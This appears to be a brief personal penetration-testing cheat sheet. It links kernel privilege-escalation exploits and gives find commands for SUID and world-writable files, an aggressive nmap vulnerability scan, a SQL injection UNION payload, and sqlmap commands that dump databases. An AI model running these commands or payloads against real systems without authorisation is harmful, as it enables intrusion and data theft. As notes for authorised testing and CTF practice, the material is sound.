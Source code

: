 # Sec notes



### Privilege escalation exploits:

* Kernel **< 4.4.0-116** : https://www.exploit-db.com/exploits/44298
* Kernel **< 4.13.9** (Ubuntu 16.04 - Fedora 27): https://www.exploit-db.com/exploits/45010

### Find exploitable bins

- `find / -perm -u=s -type f 2>/dev/null | grep -v /proc`
- `find / -perm -o+w -type f 2>/dev/null | grep -v /proc`



### Nmap useful commands:

* Scan host deep : `nmap -Pn  -sS -sV --script=default,vuln -p- -T5 <ip>`

### Wordpress

- TODO

### SQL Injection

- Example concatenate other table where injection is possible : 
  - `<injection_param> UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = '<tablename>'`
- **SQLMAP** 
  - Dump databases: 
    - `sqlmap -u http://example.com/users/<injection_param> --dbs --match`
  - Dump tables:
    -  `sqlmap -u http://example.com/users/<injection_param> -D <db_name> --tables --match`



------



### Misc links:

* From webshell to full tty :  https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
* Cheatsheet post exploit linux : https://guif.re/linuxeop